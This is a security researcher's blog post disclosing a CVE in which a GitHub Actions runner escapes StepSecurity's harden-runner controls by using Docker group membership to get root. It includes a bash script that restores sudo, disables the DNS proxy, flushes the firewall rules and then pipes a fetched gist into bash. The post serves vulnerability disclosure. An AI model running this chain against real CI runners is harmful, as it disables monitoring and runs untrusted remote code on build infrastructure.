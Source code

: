 ```yaml
---
layout: post
title:  "Is harden-runner really securing your GitHub workflows?"
date:   2025-04-23 14:39:49 +0000
categories: supply chain security, GitHub Actions
---
```


What is the best way for a security guy to start a new blog? Probably sharing the first CVE that I found! 

I already published a blog post [here](https://sysdig.com/blog/security-mechanism-bypass-in-harden-runner-github-action/), but I wanted to add some more thoughts about it in my personal blog to just keep record of it and give more context.

During the last months I spent some time instructing myself on CI/CD security, especially on GitHub Actions, since I always loved to work in public, open-source repositories. While working on a project to use [Falco](https://falco.org) to gain visibility on GitHub workflows (at the end of the day, GitHub-hosted runners are just Linux machines), I started taking a look around to see how other projects/companies were addressing the problem. 

During this investigation, I stumbled upon [StepSecurity harden-runner](https://github.com/step-security/harden-runner). This is the most widespread product I found, it's used in a lot of open-source repositories and important projects. It has to be said that it really helped finding interesting real world attacks, especially thanks to their features allowing to audit or even block egress traffic using an [agent](https://github.com/step-security/agent) written in Go -- but probably the way these kind of solutions work isn't enough, since it turned out that a more motivated attacker can circumvent and turn off any security control in place. I talked about this with [Adnan Khan](https://adnanthekhan.com/), one of the best security researchers in this domain, and he confirmed my doubts. This led me to try to find an actual way to prove my thesis.

The main problem with these tools is that their security model is fundamentally broken. In a GitHub Actions environment, attackers can and will gain remote code execution in many subtle ways. Think about projects like [Living Off the Pipeline](https://boostsecurityio.github.io/lotp/) and check how many ways are out there to run untrusted code, following an "innocent" repo checkout on a PR or a workflow injection. 

So, now that we know attackers will execute their code, what is actually differentiating the code run by them and the one run by harden-runner? Well, just nothing. Will the software that is meant to monitor and secure your workflow be safe from potential tampering? Nope, of course.

You can read the details about the vulnerable code in the [Sysdig blog post](https://sysdig.com/blog/security-mechanism-bypass-in-harden-runner-github-action/), but basically the main features of the agent (that is auditing or blocking egress traffic both at the DNS and IP level), was implemented by:
1. Spawning a local DNS proxy, used to monitor/block all DNS queries. The `systemd-resolve` service is stopped, reconfigured to use the proxy, and the old configuration backed up in `/tmp`.
2. Creating simple iptables rules, both for host and containers.

To protect the agent inside the runner VM, StepSecurity implemented a feature called `disable-sudo`. By default, the `runner` Linux user inside the VM can run any arbitrary command via `sudo` thanks to the configuration in `/etc/sudoers.d/runner` file. The `disable-sudo` policy just limits itself to move the sudoers file for the user in `/tmp`, making it impossible to run `sudo` commands again. So everything is okay right? Nope! We just needed to find a way to escalate privileges in a different ways. How? 

1. Applying my knownledge about GHA. If you are a user of this product, you know that GitHub actions can be of three types: composite, JavaScript and Docker actions.
2. Remebering a good old friend, the [Docker GTFObin](https://gtfobins.github.io/gtfobins/docker/). 

Being part of the Docker group means being root, and of course since the runner must be able to run containers (Docker actions), so we must be inside that group. A quick execution of `id` inside the runner shell confirmed that we are indeed part of it.

So, at the end of the day it all boils down to:

```bash
# Restore sudo access via Docker privilege escalation, mounting the host filesystem 
# and operating as root inside it
docker run \
    --rm --privileged \
    -v /:/host \
    ubuntu bash -c "cp /host/tmp/runner /host/etc/sudoers.d/runner"

# Restore old DNS systemd configuration, disabling harden-runner proxy
sudo systemctl stop systemd-resolved
sudo cp /tmp/resolved.conf /etc/systemd/resolved.conf
sudo systemctl restart systemd-resolved

# Remove harden runner iptables rules
sudo iptables -t filter -F OUTPUT
sudo iptables -t filter -F DOCKER-USER

# Do mess undisturbed
curl -sSfL <GIST_URL> | bash
```

The mitigation that StepSecurity proposed is described [here](https://www.stepsecurity.io/blog/evolving-harden-runners-disable-sudo-policy-for-improved-runner-security), but basically they evolved the `disable-sudo` feature to `disable-sudo-and-containers`, disinstalling Docker altogether, so that the privilege escaltion cannot be performed anymore. I still believe that there might be some more subtle ways to gain root inside the runner, and I will continue to research about it. 

Of course disinstalling Docker is just a mitigation and it's something that is limiting the features offered by GHA. I hope this CVE will serve to lead the security community to think of better ways to protect agents from tampering in such environments.

Thanks for reading, hope you enjoyed!